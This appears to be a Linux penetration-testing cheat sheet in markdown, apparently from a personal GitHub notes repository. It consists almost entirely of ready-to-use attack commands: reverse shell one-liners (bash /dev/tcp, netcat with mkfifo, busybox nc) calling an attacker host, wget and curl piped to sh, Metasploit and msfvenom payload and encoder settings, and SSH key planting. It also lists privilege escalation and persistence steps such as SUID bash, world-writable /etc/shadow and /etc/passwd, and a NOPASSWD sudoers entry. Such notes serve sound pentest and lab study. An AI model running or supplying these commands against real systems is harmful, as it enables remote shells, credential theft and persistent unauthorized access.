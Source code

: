 # Linux
*   Generic Tools
    *   Linux Smart Enumeration
    *   LinPEAS
    *   LinEnum
*   Shells & Payloads
    *   Metasploit
        *   `msfconsole` → `search [COMPONENT]` → `use [EXPLOIT]` → `options`
        *   `set payload linux/[x86/X64]/shell/[bind/reverse]_tcp` → Also `/meterpreter/` instead of `/shell/`
        *   `set payload linux/[x86/X64]/shell_[bind/reverse]_tcp`
    *   Web Shells
        *   `ls -la /usr/share/webshells` + [Public Repository](https://github.com/nicholasaleks/webshells)
        *   ASP / ASPX / PHP / PL / RB / CFM / JSP / [WAR (Tomcat Manager Endpoints)](https://0xdf.gitlab.io/2020/11/07/htb-tabby.html)
    *   Bash / Netcat / Python3
        *   `sh -i >& /dev/tcp/[KALI_IP]/[PORT] 0>&1`
        *   `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|cmd -i 2>&1|nc [KALI_IP] [PORT] >/tmp/f` 
        *   `busybox nc [KALI_IP] [PORT] -e sh`
        *   [Python3 Shortest](https://www.revshells.com/)
    *   CURL / WGET
        *   `wget -q -O - http://[KALI_IP]/[SCRIPT] | sh`
        *   `curl -s http://[KALI_IP]/[SCRIPT] | sh`
    *   SSH Hijacking
        *   `ssh-keygen -t ed25519 -f [KEY_FILE]` → Paste in `C:\Users\[USERNAME]\.ssh\authorized_keys`
        *   `chmod 600 [KEY_FILE]`
        *   `ssh -i [KEY_FILE] [USER]@[IP]`
        *   After Compromising Root → Perform to create a SSH Access
    *   MSFVenom
        *   Executable Upload
            *   `metash()`
            *   ELF                 → `chmod +x [FILE]`
            *   ELF-SO          → SO Hijacking
            *   PHP                → `-p php/meterpreter/reverse_tcp -f raw`
            *   WAR / JSP     → `-p java/shell_reverse_tcp -f war`
        *   BOF Shellcode
            *   `msfvenom -a [x86/x64] -p [SHELL_TYPE] -f [python/c] -b [BAD_CHARS] -e [ENCODER] -i 3 --smallest` 
            *   Encoders                → `x86/shikata_ga_nai` / `x86/unicode_m`
            *   Extra Options        → `BufferRegister=EAX` / `Exitfunc=thread`
            *   Default Badchars → `\x00\x0a\x0d`
    *   Bash Payloads
        *   `chmod u+s /bin/bash`       → `/bin/bash -p` → Give SUID to Shell [GTFOBin](https://gtfobins.github.io/)(`find` / Other)
        *   `chmod 777 /etc/shadow`   → Hash Cracking
        *   `chmod 777 /etc/passwd`   → Remove `x` from root
        *   `echo "[USER] ALL=(ALL) NOPASSWD: ALL" | tee /etc/sudoers.d/[USER]` → Give User `sudo su` privileges
        *   Create User
            *   `usermod [USER] --password $(echo [PASS] | openssl passwd -1 -stdin)`
        *   Set Group Membership
            *   `usermod -aG [GROUP] [USER]` → `sudo` Group / Alternative
*   File Transfers
    *   Writable Directories
        *   `/var/tmp`
        *   `/tmp`
        *   `/dev/shm`
    *   HTTP
        *   [GTFOBins](https://gtfobins.github.io/#+file%20download)
        *   `httpserv()`
        *   `curl http://[IP]:8888/[SRC] -o [DEST]`
        *   `wget http://[IP]:8888/[SRC] -O [DEST]`